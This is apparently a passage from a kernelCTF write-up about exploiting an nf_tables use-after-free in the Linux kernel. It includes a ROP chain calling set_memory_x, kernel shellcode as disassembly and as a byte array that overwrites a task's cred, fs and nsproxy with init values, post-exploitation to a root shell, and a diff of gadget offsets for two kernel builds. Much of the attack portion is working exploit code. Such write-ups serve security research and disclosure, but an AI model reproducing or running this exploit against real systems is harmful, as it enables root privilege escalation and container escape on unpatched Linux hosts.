Beside `ops` fields and pivot gadgets, there are several fields in `struct nft_set` object which affect routines for RIP control. The exploit set these fields properly and constructs the fake object.
- `name` and `genmask` fields are used to identify the `struct nft_set` object in `nf_set_lookup` function. We properly set the `name` field with the fake name pointer and set the `genmask` field to `0`.
- `use` and `num_exprs` fields are used in `nft_set_destroy` function for cleanup. We set it both to `0` to avoid checks and additional cleanup routines.

- [net/netfilter/nf_tables_api.c:trans_destroy_work](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n123)
```c
static DECLARE_WORK(trans_destroy_work, nf_tables_trans_destroy_work);
```

- [net/netfilter/nf_tables_api.c:nf_tables_trans_destroy_work()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n8475)
```c
static void nf_tables_trans_destroy_work(struct work_struct *w)
{
// ...
	list_for_each_entry_safe(trans, next, &head, list) {
		list_del(&trans->list);
		nft_commit_release(trans);
	}
}
```
However, the deletion of `struct nft_set` is not directly executed on the syscall context, but it is committed and processed with kernel worker `trans_destroy_work`. Since the actual RIP control and execution of the ROP payload occurs in the kernel worker context, it brings the following issues.
- The kernel worker context has separated the task struct from the exploit process, so we can't install the credentials into the exploit process for privilege escalation using kernel function such as `commit_creds` function.
- We can't return the control flow to usermode naively since the task is not on syscall context. 
- The pid namespace of the kernel worker task is separated from the exploit process so we can't directly find our exploit process with kernel function such as `find_task_by_vpid` function.

### 7.6 ROP for Kernel shellcode

In this section, the exploit executes kernel shellcode, which performs privilege escalation and container escape, through ROP from previous steps.

As described earlier, our ROP payload is executed in a kernel worker context and it hinders direct approaches used for `lts-6.1.31` exploit. To deal with this, we use kernel shellcode for privilege escalation and container escape, instead of using kernel functions.

- [exploit/extra-refined/exploit.c#L1133](../exploit/extra-refined/exploit.c#L1133)
```c
uintptr_t *gadget_start = (uintptr_t *)(buf_ptr + 0xe8);
int idx = 0;
gadget_start[idx++] = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
gadget_start[idx++] = nft_set_addr & ~0xfffUL;
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = 1;
gadget_start[idx++] = curr_gadget->set_memory_x_offset + kaslr_slide;
gadget_start[idx++] = nft_set_addr + 0x18 + 0x20 * 8;
```
The ROP payload is constructed by the code above. To execute the kernel shellcode, The ROP sequences perform the followings.
- `set_memory_x(heap_addr & ~0xfffUL, 1)`
- Execute the kernel shellcode located below.

After the above ROP sequence is executed, the kernel page the current chunk is located is set to RWX permission, and the kernel shellcode that follows is now executable.

For privilege escalation and container escape, the kernel shellcode pinpoints the exploit process from the task list and installs core kernel structures such as `struct cred`, `struct nsproxy`, and `struct fs` into the corresponding task struct directly. To do this, the kernel shellcode performs the followings.
- Starting from `init_task`, iterate through the task list to find the task struct of the exploit process.
  - In the loop, the kernel shellcode identifies the exploit process by comparing the task's `comm` fields with `TARGET_COMM` value. This magic value for `comm` field is set for the exploit process in the [preparation step](#72-preparation-for-post-pc-control-and-barrier-objects).
- Install the following structures into the found task for privilege escalation and container escape.
  - `task->cred = &init_cred`
  - `task->real_cred = &init_cred`
  - `task->fs = &init_fs`
  - `task->nsproxy = &init_nsproxy`
- Sleep eternally with `msleep(0xffffffff)` loop.


- [exploit/extra-refined/exploit.c#L1142](../exploit/extra-refined/exploit.c#L1142)
```c
unsigned char *sc = &gadget_start[idx];
// kernel shellcode
    // iterate through task_struct list started with init_task
    // if the target comm matches with magic value,
    // install init_cred / init_nsproxy / init_fs into target task_struct
    // and loop msleep(0xffffffff)
    /*
    0:  4d 31 ff                xor    r15,r15
    3:  49 be 00 00 fe ca ef    movabs r14,0xdeadbeefcafe0000 ; init_task
    a:  be ad de
    d:  49 bd 01 00 fe ca ef    movabs r13,0xdeadbeefcafe0001 ; target_comm
    14: be ad de
    17: 4d 39 ae 68 07 00 00    cmp    QWORD PTR [r14+0x768],r13
    1e: 74 1a                   je     0x3a
    20: 4d 8b b6 88 04 00 00    mov    r14,QWORD PTR [r14+0x488]
    27: 49 81 ee 88 04 00 00    sub    r14,0x488
    2e: 49 ff c7                inc    r15
    31: 49 81 ff e8 03 00 00    cmp    r15,0x3e8
    38: 7e d3                   jle    0xd
    3a: 48 bb 02 00 fe ca ef    movabs rbx,0xdeadbeefcafe0002 ; init_cred
    41: be ad de
    44: 49 89 9e 50 07 00 00    mov    QWORD PTR [r14+0x750],rbx
    4b: 49 89 9e 58 07 00 00    mov    QWORD PTR [r14+0x758],rbx
    52: 48 bb 05 00 fe ca ef    movabs rbx,0xdeadbeefcafe0005 ; init_fs
    59: be ad de
    5c: 49 89 9e a8 07 00 00    mov    QWORD PTR [r14+0x7a8],rbx
    63: 48 bb 03 00 fe ca ef    movabs rbx,0xdeadbeefcafe0003 ; init_nsproxy
    6a: be ad de
    6d: 49 89 9e c0 07 00 00    mov    QWORD PTR [r14+0x7c0],rbx
    74: bf ff ff ff ff          mov    edi,0xffffffff
    79: 48 b8 04 00 fe ca ef    movabs rax,0xdeadbeefcafe0004 ; msleep
    80: be ad de
    83: ff d0                   call   rax
    85: eb ed                   jmp    0x74
    */
    unsigned char data[135] = {
        0x4d,0x31,0xff,0x49,0xbe,0x0,0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x49,0xbd,0x1,
        0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x4d,0x39,0xae,0x68,0x7,0x0,0x0,0x74,0x1a,
        0x4d,0x8b,0xb6,0x88,0x4,0x0,0x0,0x49,0x81,0xee,0x88,0x4,0x0,0x0,0x49,0xff,
        0xc7,0x49,0x81,0xff,0xe8,0x3,0x0,0x0,0x7e,0xd3,0x48,0xbb,0x2,0x0,0xfe,0xca,
        0xef,0xbe,0xad,0xde,0x49,0x89,0x9e,0x50,0x7,0x0,0x0,0x49,0x89,0x9e,0x58,0x7,
        0x0,0x0,0x48,0xbb,0x5,0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x49,0x89,0x9e,0xa8,
        0x7,0x0,0x0,0x48,0xbb,0x3,0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x49,0x89,0x9e,
        0xc0,0x7,0x0,0x0,0xbf,0xff,0xff,0xff,0xff,0x48,0xb8,0x4,0x0,0xfe,0xca,0xef,
        0xbe,0xad,0xde,0xff,0xd0,0xeb,0xed,
    };
    replace(data, sizeof(data), 0xdeadbeefcafe0000, curr_gadget->init_task_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0001, TARGET_COMM);
    replace(data, sizeof(data), 0xdeadbeefcafe0002, curr_gadget->init_cred_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0003, curr_gadget->init_nsproxy_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0004, curr_gadget->msleep_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0005, curr_gadget->init_fs_offset + kaslr_slide);
    memcpy(sc, data, sizeof(data));
```
- [exploit/extra-refined/exploit.c#L284](../exploit/extra-refined/exploit.c#L284)
```c
void replace(unsigned char *data, uint64_t datasz, uintptr_t key, uintptr_t repl)
{
    for (unsigned char *data_end = data + datasz - 8; data < data_end; data++) {
        if (*(uintptr_t*)data == key) {
            *(uintptr_t*)data = repl;
        }
    }
}
```
The code above is for crafting the payload for the kernel shellcode. The kernel image-specific offsets are patched into kernel shellcode by `replace` function.

### 7.7 Post exploitation

In this step, the exploit process acquires root privilege and escape the namespace container, popping a root shell from outside of the container.

- [exploit/extra-refined/exploit.c#L1221](../exploit/extra-refined/exploit.c#L1221)
```c
printf("[*] now take a rest while worker make us escape!\n");
sleep(3);

post_exploit();
```
The exploit waits for a while to ensure the kernel shellcode is executed by the kernel worker. After the kernel shellcode is executed, the same `post_exploit` function from `lts_6.1.31` exploit is used to perform post-exploit works and drop a root shell to get the flag of `cos-105-17412-101.17` instance.

## 8. LTS 6.1 Mitigation Instance
For `mitigation-6.1` instance, we could apply the exactly same exploit strategy for `lts-6.1.31`, since the original strategy is not hindered by the applied mitigations.
- [net/netfilter/nf_tables_api.c:nf_tables_newset()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n4494)
```c
// ...
	udlen = 0;
	if (nla[NFTA_SET_USERDATA])
		udlen = nla_len(nla[NFTA_SET_USERDATA]);

	size = 0;
	if (ops->privsize != NULL)
		size = ops->privsize(nla, &desc);
	alloc_size = sizeof(*set) + size + udlen;
	if (alloc_size < size || alloc_size > INT_MAX)
		return -ENOMEM;
	set = kvzalloc(alloc_size, GFP_KERNEL_ACCOUNT);
// ...
```
- [ipc/msgutil.c:alloc_msg()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/ipc/msgutil.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n46)
```c
static struct msg_msg *alloc_msg(size_t len)
{
	struct msg_msg *msg;
	struct msg_msgseg **pseg;
	size_t alen;

	alen = min(len, DATALEN_MSG);
	msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT);
// ...
		seg = kmalloc(sizeof(*seg) + alen, GFP_KERNEL_ACCOUNT);
// ...
}
```
- [fs/pipe.c:alloc_pipe_info()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/fs/pipe.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n782)
```c
struct pipe_inode_info *alloc_pipe_info(void)
{
	struct pipe_inode_info *pipe;
	unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
// ...
	pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
// ...
```
The variable-sized object cache separation doesn't hinder our exploit since the vulnerable object (`struct nft_set`) and target objects for exploit (`struct msg_msg`, `struct msg_msgseg`, `struct pipe_buffer`) are all allocated with variable size.

Furthermore, the slab freelist protection of mitigation instance can't prevent double free and unaligned free on freelist head, but ironically stabilizes our exploit (refer [Abusing `CONFIG_SLAB_FREELIST_HARDENED` mitigation to aid exploitation section of novel-techniques.md](./novel-techniques.md#abusing-config_slab_freelist_hardened-mitigation-to-aid-exploitation)).

```diff
# diff exploit/lts-6.1.31/exploit.c exploit/mitigation-6.1/exploit.c 
908c908
<     printf("[*] overlapped by msg_msgseg : size %d\n", ret);
---
>     //printf("[*] overlapped by msg_msgseg : size %d\n", ret);
1039,1048c1039,1048
< #define ANON_PIPE_BUF_OPS  0xffffffff82a04ac0
< //0xffffffff818ca79b : push rsi ; jmp qword ptr [rsi + 0x39]
< #define PIVOT_GADGET 0xffffffff818ca79b
< //0xffffffff81404820 : pop rsp ; ret
< #define PIVOT_GADGET2 0xffffffff81404820
< 
< #define PREPARE_KERNEL_CRED 0xffffffff811139d0
< #define COMMIT_CREDS 0xffffffff811136f0
< #define SWITCH_TASK_NAMESPACES 0xffffffff81111c80
< #define FIND_TASK_BY_VPID 0xffffffff8110a0d0
---
> #define ANON_PIPE_BUF_OPS 0xffffffff82a057c0
> //0xffffffff818d557b : push rsi ; jmp qword ptr [rsi + 0x39]
> #define PIVOT_GADGET  0xffffffff818d557b
> //0xffffffff811cc910 : pop rsp ; ret
> #define PIVOT_GADGET2 0xffffffff811cc910
> 
> #define PREPARE_KERNEL_CRED 0xffffffff81115030 
> #define COMMIT_CREDS 0xffffffff81114d50
> #define SWITCH_TASK_NAMESPACES 0xffffffff811132e0
> #define FIND_TASK_BY_VPID 0Xffffffff8110b730 
1050,1054c1050,1054
< #define POP_RDI_RET 0xffffffff8102764d
< #define POP_RSI_RET 0xffffffff810fb7dd
< #define POP_RCX_RET 0xffffffff811e3633
< //0xffffffff818aaa46 : push rax ; jmp qword ptr [rsi - 0x7f]
< #define PUSH_RAX_JMP_QPTR_RSI 0xffffffff818aaa46 
---
> #define POP_RDI_RET 0xffffffff81082fd0
> #define POP_RSI_RET 0xffffffff811e7f5e
> #define POP_RCX_RET 0xffffffff811080e3
> //0xffffffff818b5486 : push rax ; jmp qword ptr [rsi - 0x7f]
> #define PUSH_RAX_JMP_QPTR_RSI 0xffffffff818b5486
1057,1058c1057,1058
< #define INIT_TASK 0xffffffff836159c0
< #define INIT_NSPROXY 0xffffffff83661680
---
> #define INIT_TASK 0xffffffff83615a40
> #define INIT_NSPROXY 0xffffffff83662a40
```
The diff result between `lts-6.1.31` exploit and `mitigation-6.1` exploit shows directly that there are no noticeable changes on exploits except kernel image-specific offsets.

Refer [novel-techniques.md](./novel-techniques.md) for detailed research about mitigation instance.

## 9. Summary 
So far, we've gone through the technical details of vulnerability, extending capability of vulnerability for exploitation, and comprehensive exploitation procedures for each target instance. 

With our best efforts, we succeed to exploit all three target instances with a single vulnerability for the first time in kernelCTF's history.


